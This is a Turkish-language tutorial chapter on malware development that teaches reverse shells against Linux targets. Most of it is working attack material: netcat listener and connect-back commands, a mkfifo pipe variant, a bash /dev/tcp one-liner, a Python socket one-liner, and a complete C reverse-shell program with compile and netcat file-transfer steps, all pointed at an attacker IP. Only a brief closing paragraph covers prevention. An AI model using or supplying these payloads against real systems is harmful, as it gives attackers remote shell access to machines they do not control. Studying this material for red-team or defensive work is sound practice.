

\newpage
\subsection{3. ters kabuklar (reverse shells)}

﷽

{height=400px}    

Öncelikle, ters kabuk (reverse shell) gibi bir kavramı ele alacağız, çünkü bu, zararlı yazılım geliştirme alanında oldukça önemli bir konudur.      

### what is reverse shell?

Reverse shell or often called connect-back shell is remote shell introduced from the target by connecting back to the attacker machine and spawning target shell on the attacker machine. This usually used during exploitation process to gain control of the remote machine.


Ters kabuk (reverse shell), genellikle `80`, `443`, `8080` gibi yaygın çıkış portlarından yararlanabilir.     

Ters kabuk, genellikle hedef makinenin güvenlik duvarı tarafından belirli portlardan gelen bağlantıları engellediği durumlarda kullanılır. Bu güvenlik duvarı kısıtlamasını aşmak için, Red Team uzmanları ve pentesterler ters kabuklar kullanır.     

Ancak, burada bir uyarı var: Bu durum, saldırganın kontrol sunucusunu açığa çıkarabilir ve hedef ağın ağ güvenlik izleme hizmetleri tarafından izler tespit edilebilir.  

Ters kabuk elde etmek için üç adım vardır:  
Öncelikle, saldırgan hedef sistemde veya ağda bir güvenlik açığından yararlanarak kod çalıştırma yeteneği elde eder.   
Daha sonra, saldırgan kendi makinesinde bir dinleyici (listener) kurar.    
Son olarak, saldırgan, güvenlik açığını sömürmek için savunmasız sisteme ters kabuk kodu enjekte eder.   

Bir başka önemli nokta daha var: Gerçek siber saldırılarda ters kabuk, sosyal mühendislik yoluyla da elde edilebilir. Örneğin, bir oltalama e-postası veya kötü amaçlı bir web sitesi aracılığıyla yerel bir iş istasyonuna yüklenen bir zararlı yazılım, bir komut sunucusuna giden bir bağlantı başlatabilir ve saldırganlara ters kabuk yeteneği sağlayabilir.       

{width="80%"}

Bu yazının amacı, hedef ana bilgisayar veya ağdaki bir güvenlik açığını istismar etmek değil, kod yürütmeyi gerçekleştirmek için kullanılabilecek bir güvenlik açığı bulma fikrini anlatmaktır.     

Hedef sistemde hangi işletim sisteminin kurulu olduğuna ve hangi servislerin çalıştığına bağlı olarak ters kabuk türü farklı olabilir; örneğin, `php, python, jsp` v.b dillerde olabilir.    

***

### dinleyici(listener)

Basitlik açısından, bu örnekte hedef sistemin herhangi bir port üzerinden dışarıya bağlantıya izin verdiğini varsayıyoruz (varsayılan `iptables` güvenlik duvarı kuralı). Bu durumda, dinleyici portu olarak `4444` kullanıyoruz. Ancak, istediğiniz başka bir portu da seçebilirsiniz. Dinleyici, `TCP/UDP` bağlantılarını veya soketlerini açabilen herhangi bir program ya da araç olabilir. Çoğu durumda, ben genellikle `nc` veya `netcat` aracını kullanmayı tercih ediyorum.    

```bash
nc -lvp 4444
```

- `-l`: dinleme modunu etkinleştirir.    
- `-v`: ayrıntılı mod (verbose).    
- `-p`: dinlenecek portu belirtir (burada `4444`).    
- `-n` (isteğe bağlı): DNS çözümlemesi yerine yalnızca sayısal IP adreslerini kullanır.     

Bu komut, her arayüzde port `4444` üzerinden gelen bağlantıları dinlemek için ayarlanmıştır. Ters kabuk bağlantısı sağlandıktan sonra, saldırgan bu dinleyici üzerinden hedef sistemle iletişim kurabilir.    

    

***

### ters kabuğu çalıştırma(örnekler)

Yine basitlik açısından, örneklerimizde hedef bir Linux makinesi olarak belirlenmiştir.   
**1. netcat**   
kullanımı:

```bash
nc -e /bin/sh 10.9.1.6 4444
```

Bu yazılımda `10.9.1.6` saldırı yapılacak aracın İP adresi ve `4444` dinlenen port.    

{width="80%"}

**2. netcat'ı -e'siz kullanma**    
Yeni Linux sistemlerde, varsayılan olarak `GAPING_SECURITY_HOLE` devre dışı bırakılmış netcat kullanılmaktadır, bu da netcat'in `-e` seçeneğinin mevcut olmadığı anlamına gelir.    

Bu durumda, ters kabuk oluşturmak için şu komut kullanılabilir:     

```bash
mkfifo /tmp/p; nc <LHOST> <LPORT> 0</tmp/p | 
/bin/sh > /tmp/p 2>&1; rm /tmp/p
```

{width="80%"}

Burada, ilk olarak mkfifo komutunu kullanarak `p` adlı adlandırılmış bir pipe (AKA FIFO) oluşturdum. `mkfifo` komutu, dosya sisteminde bir nesne oluşturur ve bu durumda, `p` adında bir "geri kanal" (backpipe) oluşturdum. Bu geri kanal, adlandırılmış bir boru (named pipe) türündedir. Bu FIFO, verileri shell'in girdisine taşıma amacıyla kullanılacaktır. Geri kanalımı `/tmp` dizininde oluşturdum, çünkü neredeyse her hesap bu dizine yazma yetkisine sahiptir. Bu, saldırıyı gerçekleştirirken izin sorunlarından kaçınmayı sağlar.     

**3. bash**   
Bu yöntem, eski Debian tabanlı Linux dağıtımlarında çalışmayabilir.   
kod:

```bash
bash -c 'sh -i >& /dev/tcp/10.9.1.6/4444 0>&1'
```

{width="80%"}

**4. python**

Yarı etkileşimli bir shell oluşturmak için python kullanabilirsiniz. Hedef makinede şu komutu çalıştırabilirsiniz:    

```python
python -c 'import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("<LHOST>",<LPORT>));
os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

{width="80%"}

Daha detaylı örnekler: [github reverse shell cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

***

### C ile ters kabuk(reverse shell) oluşturma

En sevdiğim kısım. Siber güvenliğe programlama geçmişiyle geldiğimden beri, "tekerleği yeniden icat etmek" yani, bir şeylerle uğraşmaktan keyif alıyorum ve bu öğrenme yolu bazı şeyleri anlamak için yardımcı oluyor.    

Dediğim gibi şimdi Linux hedef makinesi için bir ters kabuk yazalım.      

`shell.c` adlı dosya oluşturuyorum:
```cpp
#include <stdio.h>
#include <sys/socket.h>
#include <netinet/ip.h>
#include <arpa/inet.h>
#include <unistd.h>

int main () {

	// attacker IP address
	const char* ip = "10.9.1.6";

	// address struct
	struct sockaddr_in addr;
	addr.sin_family = AF_INET;
	addr.sin_port = htons(4444);
	inet_aton(ip, &addr.sin_addr);

	// socket syscall
	int sockfd = socket(AF_INET, SOCK_STREAM, 0);

	// connect syscall
	connect(sockfd, (struct sockadr *)&addr, sizeof(addr));

	for (int i = 0; i < 3; i++) {
		// dup2(sockftd, 0) - stdin
		// dup2(sockfd, 1) - stdout
		// dup2(sockfd, 2) - stderr
		dup2(sockfd, i);
	}

	// execve syscall
	execve("/bin/sh", NULL, NULL);

	return 0;
}
```

Kodu derleyelim:
```bash
gcc -o shell shell.c -w
```

{width="80%"}

*If you compile for 32-bit linux run:* ```gcc -o shell -m32 shell.c -w```

*Eğer 32-bitlik Linux makinesinde derliyorsanız:* ```gcc -o shell -m32 shell.c -w```

Dosyayı hedef makineye aktarmayı başlayalım. Dosya aktarımı, sömürü sonrası (post-exploitation) aşamalarında en önemli adımlardan biri olarak kabul edilir. Burada, netcat aracını kullanarak bu işlemi gerçekleştireceğiz.    

Netcat, bir hackerın İsviçre çakısı olarak bilinir.     

hedef makinede çalıştır:
```bash
nc -lvp 4444 > shell
```

saldırgan makinede çalıştır:
```bash
nc 10.9.1.19 4444 -w 3 < shell
```

{width="80%"}

kontrol etmek için:
```bash
./shell
```

{width="80%"}

[Kaynak kodu Git hub’tan bulursunuz](https://github.com/cocomelonc/2021-09-11-reverse-shells)

***

### Önleme

Ne yazık ki, ters kabukları tamamen engellemenin bir yolu yoktur. Ters kabukları uzaktan yönetim amacıyla bilinçli olarak kullanmadığınız sürece, herhangi bir ters kabuk bağlantısı muhtemelen kötü niyetlidir. Sömürüyü sınırlamak için, yalnızca gerekli hizmetler için belirli uzak IP adreslerine ve portlara izin vererek çıkış bağlantılarını kısıtlayabilirsiniz. Bu, sanal bir ortamda çalıştırarak veya sunucuyu minimal bir konteyner içinde çalıştırarak gerçekleştirilebilir.      